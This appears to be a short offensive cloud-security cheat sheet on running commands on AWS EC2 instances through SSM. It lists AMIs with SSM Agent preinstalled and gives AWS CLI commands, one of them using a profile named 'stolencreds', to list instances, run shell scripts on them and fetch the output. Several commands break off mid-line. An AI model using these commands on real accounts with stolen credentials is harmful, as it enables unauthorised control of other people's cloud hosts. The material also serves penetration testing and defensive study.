 # AWS -SSM - Command Execution

## The ssm-user account is not removed from the system when SSM Agent is uninstalled

### SSM Agent is preinstalled, by default, on the following Amazon Machine Images (AMIs):

 - Windows Server 2008-2012 R2 AMIs published in November 2016 or later

 - Windows Server 2016 and 2019

 - Amazon Linux

 - Amazon Linux 2

 - Ubuntu Server 16.04

 - Ubuntu Server 18.04

 - Amazon ECS-Optimized

### Commands:

 - aws ssm describe-instance-information --profile stolencreds --region eu-west-1

 - aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript

 - aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query

### Eg:

 - aws ssm send-command --instance-ids "i-05b████████adaa" --document-name "AWS-RunShellScript
